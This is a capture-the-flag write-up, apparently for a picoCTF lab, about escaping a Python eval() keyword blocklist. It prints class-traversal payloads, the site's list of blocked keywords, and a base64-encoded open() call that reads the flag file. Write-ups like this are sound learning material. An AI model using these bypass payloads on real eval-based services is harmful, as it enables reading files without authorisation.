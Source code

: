 ### 3v@l - challenge 484

Access the lab, try exploit like [ssti1](../../../easy/ssti1/ssti.md)

using payload to manipulation this  `code` parameter `().__class__ + .__bases__[0] + .__subclasses__()` at POST - http://shape-facility.picoctf.net:55822/execute

`subprocess.Popen` and `os.wrap_close` available, try to exploit like `ssti1`

Get number of `os.wrap_close` at `132` subclass

![alt text](image.png)

Cannot using .__globals___. 

Try using payload for eval() but not work at all, they was blocked

They blocked some command like ('ls', 'os', 'cat')

i found on view source home page

![alt text](image-1.png)

they block `os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind`

so, i try `open('flag.txt').read()`, Error: Detected forbidden keyword ''.

![alt text](image-2.png)

let's bypass using decode `hint 3`

decode it

![alt text](image-3.png)

invalid syntax `open(__import__('base64').b64decode(ZmxhZy50eHQ=)).read()`

![alt text](image-4.png)

....
 
try other base64 `./flag.txt` Li9mbGFnLnR4dA==

Still not work

![alt text](image-5.png)

my fail

it must be `open(__import__('base64').b64decode('Li9mbGFnLnR4dA==').decode()).read()`

but i got `Result: Error: [Errno 2] No such file or directory: './flag.txt'`

let try `/flag.txt`, we got flag

![alt text](image-6.png)

![flag](image-7.png)